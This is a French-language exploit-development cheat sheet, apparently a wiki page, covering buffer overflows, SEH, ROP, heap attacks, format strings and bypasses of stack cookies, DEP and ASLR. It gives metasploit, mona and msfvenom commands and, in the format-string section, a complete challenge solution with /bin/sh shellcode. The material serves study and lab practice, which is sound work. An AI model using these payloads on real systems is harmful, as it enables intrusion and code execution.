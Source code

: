 ```yaml
---
title: Buffer Overflows
permalink: /Buffer_Overflows/
---
```


# Buffer Overflows

## Généralités

Cette section contient des commandes générales utiles pour l'exploitation de buffer overflows.

Générer des patterns avec metasploit:

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb 2700 # Génération du pattern
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 39694438 # Trouver l'offset
```

Trouver un jmp avec mona dans un module spécifique:

``` bash
!mona jmp -!mona jmp -r esp -m user32.dll
```

Quand on teste un payload avec GDB il faut prendre en compte les variables d'environnement qui sont différentes dans GDB et dans un terminal "normal". Une astuce est de setter temporairement des variables dans le terminal normal (il y a notamment les variables COLUMNS et LINES qui sont présentes dans GDB)

### Bad characters

Pour rechercher des bad chars on peut générer un payload avec mona:

``` bash
!mona bytearray # Tous les caractères
!mona bytearray -cpb "\x00\x0a" # Tous sauf \x00 \x0a
```

On peut comparer un fichier avec le contenu en mémoire:

``` bash
!mona compare -f C:/mona/minishare/bytearray.bin -a 01010101 
```

Cette chaîne peut être utilisée pour chercher les "**bad chars**":

``` text
buf="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
buf+="\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
buf+="\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
buf+="\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
buf+="\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
buf+="\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
buf+="\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
buf+="\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
buf+="\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
buf+="\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
buf+="\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
buf+="\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
buf+="\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
buf+="\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
buf+="\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
buf+="\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Il faut également s'assurer que les bad chars n'empêchent pas le crash pour pouvoir facilement trouver à quel char on s'est arrêté.

### Générer shellcodes

On peut utiliser metasploit pour trouver les équivalents opcode de certaines instructions:

``` text
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```

## SEH Overflows

Les commandes mona suivantes permettent l'exploitation :
``` bash
!mona exchain # Affiche les enregistrements SEH (on peut aussi faire ALT+S)
!mona safeseh # Affiche les modules sans SafeSEH
!mona seh -m strmdll.dll # Chercher un pop,pop,ret dans le module indiqué
```

Il faut trouver un payload de la forme suivante:
``` bash
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

Si on utilise msfvenom il faut préciser EXITFUNC=SEH.

## Unicode

msfvenom dispose d'un encoder pour générer des payloads compatibles avec de l'unicode:

``` bash
msfvenom -p windows/exec -e x86/unicode_mixed CMD=calc.exe BufferRegister=eax --format=py
```

Il est cependant nécessaire d'initialiser la valeur de registre eax pour qu'elle pointe vers le début du buffer. FuzzySecurity montre une démarche (voir détail complet dans le [tutorial](http://www.fuzzysecurity.com/tutorials/expDev/5.html)). 

## Return Oriented Programming (ROP)

Les commandes mona suivantes sont utiles pour les exploits ROP:

``` bash
!mona modules # Liste les informations sur les différents modules
!mona ropfunc -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les fonctions utiles pour ROP dans MSRMfilter03.dll (VirtualAlloc, etc.)
!mona rop -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les gadgets dans MSRMfilter03.dll. Cette commande génère plusieurs fichiers. Le fichier rop_chains.txt contient la structure (valeurs à mettre dans les registres, etc.) pour faire un exploit valide.
```
## Heap attacks

## Structure de la Heap (Linux)

La Heap est remplie de chunks. Ils peuvent soit etre en utilisation ou libre.

- Chunk utilisé:
``` bash
[Previous Chunk Size(*)][Chunk Size + Flags][Data              ]
[4 bytes               ][4 bytes           ][(8 + (n/8)*8 bytes]
[*(buffer - 8)         ][*(buffer - 4)     ][*buffer           ]
(*) n'est configuré que si le chunk précédent est libre !
```

 - Chunk libre:
 ``` bash
[Previous Chunk Size][Chunk Size + Flags][FD (pointer to next free chunk)][BK (pointer to previous free chunk)]
[4 bytes            ][4 bytes           ][4 bytes                        ][4 bytes                            ]
[*(buffer - 8)      ][*(buffer - 4)     ][*buffer                        ][*(buffer + 4)                      ]
```

### Heap overflow

Une attaque de type heap overflow permet d'écraser des valeurs sur le tas. Ceci peut permettre de contourner certains contrôles (ex: valeur "privs" à modifier) ou éventuellement executer du code (ex: le tas contient un pointeur qui est ensuite utilisé via strcpy. On peut alors modifier ce pointeur pour que le strcpy modifie une adresse de retour).

### Heap Spraying

Le Heap Spraying est une méthode utilisée pour mettre le shellcode en mémoire. Via du JavaScript on met le shellcode précédé d'un large nopsled. Ceci permet de mettre dans EIP une adresse où on a une forte chance de tomber sur le nopsled.

### Commandes

Les commandes suivantes sont utiles pour l'exploitation de vulnérabilités liées à la heap:

``` bash
info proc mappings # Permet d'afficher les mappings de la heap, stack, etc.
x/64xw 0x804a000 # Permet d'afficher le contenu à l'adresse indiquée (adresse de la heap à récupérer)
```

## Format String

Une vulnérabilité de type format string permet de lire du contenu en mémoire mais aussi de le modifier ce qui permet de faire un RCE.

Les éléments suivants sont importants dans ce type d'exploit:

``` c
printf("%x"); // Prend les deux premières valeurs sur la pile et les affiche en tant que que nombre hexa
printf("Hello%n"); // Ecrit le nombre de caractères déjà mis dans le printf (ici 5 caractères de Hello) à l'adresse qui est sur la pile. On aura un crash si la première valeur de la pile n'est pas une adresse.
printf("%5$x"); // Prend la 5e valeur sur la pile
printf("%10d"); // Prend la première valeur sur la pile et l'affiche en tant qu'entier de 10 caractères (en complétant avec des espaces si nécessaire)
printf("%5$hn"); // Prend l'adresse en 5e position sur la pile et écrit sur le half-byte s'y trouvant. On utilise ceci pour pouvoir écrire une adresse arbitraire en deux fois. Ainsi si on voulait écrire 0x08091011 il faudrait mettre 134811665 avant le %n. En utilisant %hn on peut le faire en deux fois (0x0809 - 2057 et 0x1011 - 4113)
```

On peut exploiter ceci de différentes manières:
- Lire le contenu en mémoire
- Ecraser une valeur de retour (utile pour des challenges où on doit appeler une fonction précise)
- Modifier une valeur dans la Global Offset Table (voir [LiveOverflow](https://www.youtube.com/watch?v=kUk5pw4w0h4))
- Génrer un shellcode.

``` python
# Solution a un challege
shellcode = '\xee\xf7\xff\xbf'  # Adresse où se trouve le saved EIP
shellcode += '\xec\xf7\xff\xbf' # Adresse - 2 où se trouve le saved EIP. Ceci est utilisé pour le "half-write"
shellcode += 'AAAA\xcc\xcc'     # JUNK et caractères de debug
shellcode += '\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f' # Shellcode
shellcode += '\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'     # Shellcode
shellcode += '%49098d'         # On genère des caractères. En additionant ceux-ci aux précédents (shellcode, etc.) on a 0xbfff caractères imprimés
shellcode += '%4\$hn'          # On écrase le début 0xbfff
shellcode += '%14349d'         # On génère plus de caractères 
shellcode += '%5\$hn'          # On écrase la fin 0xf80c
```

### Références
- [Les failles Format String](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf)

## Contournement de protections

### Stack Cookies

Méthodes de contournement:
- Cookie prévisible (statique, faible entropie, etc.)
- Attaque SEH

### Data Execution Prevention (DEP)

Méthodes de contournement:
- Return Oriented Programming
- Return to LIBC

### Address Space Layout Randomization (ASLR)

Méthodes de contournement:
- Partial EIP Overwrite (voir [tutorial Corelan](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/))

## Ressources

### Liens externes

- [64 Bits Linux Stack Based Buffer Overflow](https://www.exploit-db.com/docs/33698.pdf)
- [Windows Exploit Development - Part 1](http://www.shogunlab.com/blog/2017/08/19/zdzg-windows-exploit-1.html)
- [Tutorials Fuzzy Security](http://www.fuzzysecurity.com/tutorials.html)
